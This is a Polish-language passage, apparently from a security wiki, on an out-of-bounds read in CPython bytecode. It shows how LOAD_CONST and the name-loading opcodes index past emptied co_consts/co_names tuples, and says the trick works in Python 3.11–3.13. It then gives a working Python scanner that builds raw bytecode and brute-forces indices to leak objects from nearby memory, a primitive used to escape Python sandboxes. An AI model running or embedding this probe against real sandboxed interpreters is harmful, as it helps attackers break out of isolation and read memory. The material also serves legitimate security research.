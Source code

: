 
---

### Notatki wersji i dotknięte opcodes (Python 3.11–3.13)

- Opcode'y bajtowe CPython nadal indeksują krotki `co_consts` i `co_names` za pomocą operandów całkowitych. Jeśli atakujący może wymusić, aby te krotki były puste (lub mniejsze niż maksymalny indeks używany przez bajtowy kod), interpreter odczyta pamięć poza zakresem dla tego indeksu, co da wskaźnik PyObject z pobliskiej pamięci. Odpowiednie opcode'y obejmują przynajmniej:
- `LOAD_CONST consti` → odczytuje `co_consts[consti]`.
- `LOAD_NAME namei`, `STORE_NAME`, `DELETE_NAME`, `LOAD_GLOBAL`, `STORE_GLOBAL`, `IMPORT_NAME`, `IMPORT_FROM`, `LOAD_ATTR`, `STORE_ATTR` → odczytują nazwy z `co_names[...]` (dla 3.11+ zauważ, że `LOAD_ATTR`/`LOAD_GLOBAL` przechowują flagi w niskim bicie; rzeczywisty indeks to `namei >> 1`). Zobacz dokumentację disassemblera dla dokładnej semantyki w każdej wersji. [Python dis docs].
- Python 3.11+ wprowadził adaptacyjne/inline cache, które dodają ukryte wpisy `CACHE` między instrukcjami. To nie zmienia OOB primitive; oznacza to tylko, że jeśli ręcznie tworzysz bajtowy kod, musisz uwzględnić te wpisy cache podczas budowania `co_code`.

Praktyczne implikacje: technika opisana na tej stronie nadal działa w CPython 3.11, 3.12 i 3.13, gdy możesz kontrolować obiekt kodu (np. za pomocą `CodeType.replace(...)`) i zmniejszyć `co_consts`/`co_names`.

### Szybki skaner dla użytecznych indeksów OOB (kompatybilny z 3.11+/3.12+)

Jeśli wolisz badać interesujące obiekty bezpośrednio z bajtowego kodu, a nie z kodu źródłowego na wyższym poziomie, możesz generować minimalne obiekty kodu i przeprowadzać brute force indeksy. Poniższy pomocnik automatycznie wstawia inline cache, gdy jest to potrzebne.
```python
import dis, types

def assemble(ops):
# ops: list of (opname, arg) pairs
cache = bytes([dis.opmap.get("CACHE", 0), 0])
out = bytearray()
for op, arg in ops:
opc = dis.opmap[op]
out += bytes([opc, arg])
# Python >=3.11 inserts per-opcode inline cache entries
ncache = getattr(dis, "_inline_cache_entries", {}).get(opc, 0)
out += cache * ncache
return bytes(out)

# Reuse an existing function's code layout to simplify CodeType construction
base = (lambda: None).__code__

# Example: probe co_consts[i] with LOAD_CONST i and return it
# co_consts/co_names are intentionally empty so LOAD_* goes OOB

def probe_const(i):
code = assemble([
("RESUME", 0),          # 3.11+
("LOAD_CONST", i),
("RETURN_VALUE", 0),
])
c = base.replace(co_code=code, co_consts=(), co_names=())
try:
return eval(c)
except Exception:
return None

for idx in range(0, 300):
obj = probe_const(idx)
if obj is not None:
print(idx, type(obj), repr(obj)[:80])
```